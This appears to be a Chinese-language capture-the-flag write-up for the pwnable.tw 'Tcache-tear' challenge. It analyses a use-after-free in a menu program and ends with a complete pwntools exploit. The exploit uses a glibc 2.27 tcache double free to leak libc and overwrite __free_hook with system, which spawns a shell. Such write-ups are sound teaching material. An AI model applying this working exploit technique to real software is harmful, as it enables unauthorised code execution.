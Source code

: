 # pwnable.tw Tcache-tear

### 0x1 分析

开的保护：

```shell
➜  Tcache-Tear checksec tcache_tear
[*] './Tcache-Tear/tcache_tear'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    FORTIFY:  Enabled
```

地址固定。

标准菜单程序：`menu()`

```c
int menu()
{
  puts("$$$$$$$$$$$$$$$$$$$$$$$");
  puts("      Tcache tear     ");
  puts("$$$$$$$$$$$$$$$$$$$$$$$");
  puts("  1. Malloc            ");
  puts("  2. Free              ");
  puts("  3. Info              ");
  puts("  4. Exit              ");
  puts("$$$$$$$$$$$$$$$$$$$$$$$");
  return printf("Your choice :");
}
```

`add()`

```c
int add()
{
  unsigned __int64 v0; // rax
  int size; // [rsp+8h] [rbp-8h]

  printf("Size:");
  v0 = read_ll();
  size = v0;
  if ( v0 <= 0xFF )
  {
    ptr = malloc(v0);
    printf("Data:");
    read_n((__int64)ptr, size - 0x10);
    LODWORD(v0) = puts("Done !");
  }
  return v0;
}
```

`info()`

```c
ssize_t info()
{
  printf("Name :");
  return write(1, &name, 0x20uLL);
}
```

`free()`在`main()`里面，被限制了次数：但是`ptr`并没有被清零。

```c
if ( v4 <= 7 )
{
  free(ptr);
  ++v4;
}
```

#### 漏洞利用

我们看到libc的版本的2.27

```shell
GNU C Library (Ubuntu GLIBC 2.27-3ubuntu1) stable release version 2.27.
```

那么，我们可以利用Tcache 的Double Free。

由于Tcache Bin在取出的时候并没有检查，可以轻松修改Tcache bin 的链指向任意位置。

我们可以构造`name`这个位置为一个大的`chunk`的`fd`位置，当它被`free`的时候被放入Unsorted bin，就可以通过`info()`来泄漏`libc`。

再次Double Free让Tcache bin的链指向`__free_hook`，修改其为`system`。然后创建一个`chunk`填入`/bin/sh\x00`，即可让`free()`的参数`ptr`指向`/bin/sh\x00`，拿到shell。

### 0x2 EXP

```python
#! /usr/bin/python
#-*- coding: utf-8 -*-
from pwn import *

context.terminal = ['tmux', 'splitw', '-h']
context(arch = 'amd64' , os = 'linux', log_level='debug')

# p = process('./tcache_tear')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')
p = remote('chall.pwnable.tw', 10207)
libc = ELF('./libc.so')
elf = ELF('./tcache_tear')

bss = 0x602050
'''
$$$$$$$$$$$$$$$$$$$$$$$
  1. Malloc
  2. Free
  3. Info
  4. Exit
$$$$$$$$$$$$$$$$$$$$$$$
'''
def debug(p, cmd):
    gdb.attach(p, cmd)
    pause()

def add(size, content):
    p.sendlineafter('Your choice :', '1')
    p.sendlineafter('Size:', str(size))
    p.sendlineafter('Data:', content)

def free():
    p.sendlineafter('Your choice :', '2')

def info():
    p.sendlineafter('Your choice :', '3')

p.sendlineafter('Name:', 'asd')
# leak libc
add(0x70, 'aaaaa')
free()  # idx : 1
free()  # idx : 2
add(0x70, p64(bss + 0x500))
add(0x70, 'aaaa')
payload = p64(0) + p64(0x21) + p64(0) * 3 + p64(0x21)
add(0x70, payload)

add(0x60, 'aaaa')
free()  # idx : 3
free()  # idx : 4
add(0x60, p64(bss))
add(0x60, 'aaaaa')
payload = p64(0) + p64(0x501) + p64(0) * 5 + p64(bss + 0x10)
add(0x60, payload)
free()  # idx : 5
# debug(p, 'bin\n')
info()
p.recvuntil('Name :')
main_arena = u64(p.recv(6).ljust(8, '\x00')) - 96
libc.address = main_arena - 0x3ebc40
success('libc : '+str(hex(libc.address)))
# debug(p, 'bin\n')
pause()

# get shell
add(0x50, 'aaa')
free()
free()
add(0x50, p64(libc.sym['__free_hook']))
add(0x50, 'aaaa')
add(0x50, p64(libc.sym['system']))
add(0x20, '/bin/sh\x00')
free()
p.interactive()
```

